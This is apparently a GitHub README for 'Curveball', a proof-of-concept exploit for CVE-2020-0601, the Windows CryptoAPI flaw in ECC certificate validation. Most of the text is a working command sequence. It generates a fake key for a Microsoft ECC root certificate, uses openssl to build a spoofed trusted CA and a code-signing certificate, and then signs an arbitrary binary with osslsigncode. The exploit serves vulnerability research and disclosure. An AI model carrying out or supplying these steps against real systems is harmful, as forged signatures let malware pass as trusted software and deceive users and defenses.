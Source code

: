 # Curveball
A PoC for [CVE-2020-0601](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0601). A detailed blog post can be found [here](https://blog.layle.io/uncovering-cve-2020-0601/). This exploit allows you to create a fake trusted certificate by abusing how CryptoAPI handles certain parameters on ECC based certificates.

## Setup
Clone the repository and open it in Visual Studio 2019. Switch to Release and compile it. You can find prebuilt binaries [here]().

## Usage
```bash
.\Curveball.exe MicrosoftECCProductRootCertificateAuthority.cer MicrosoftECCProductRootCertificateAuthority_fake.key
# in linux bash (you can also use Windows but you'd have to get an alternative for osslsigncode). WSL on Windows works fine.
openssl req -new -x509 -key MicrosoftECCProductRootCertificateAuthority_fake.key -out trusted_ca.crt
openssl ecparam -name secp384r1 -genkey -noout -out cert.key
openssl req -new -key cert.key -out cert.csr -config openssl.conf -reqexts v3_cs
openssl x509 -req -in cert.csr -CA trusted_ca.crt -CAkey MicrosoftECCProductRootCertificateAuthority_fake.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl.conf -extensions v3_cs
openssl pkcs12 -export -in cert.crt -inkey cert.key -certfile trusted_ca.crt -name "Code Signing" -out cert.p12
./osslsigncode sign -pkcs12 cert.p12 -n "Signed by Layle" -in <BINARY_TO_SIGN> -out <SIGNED_BINARY>
```
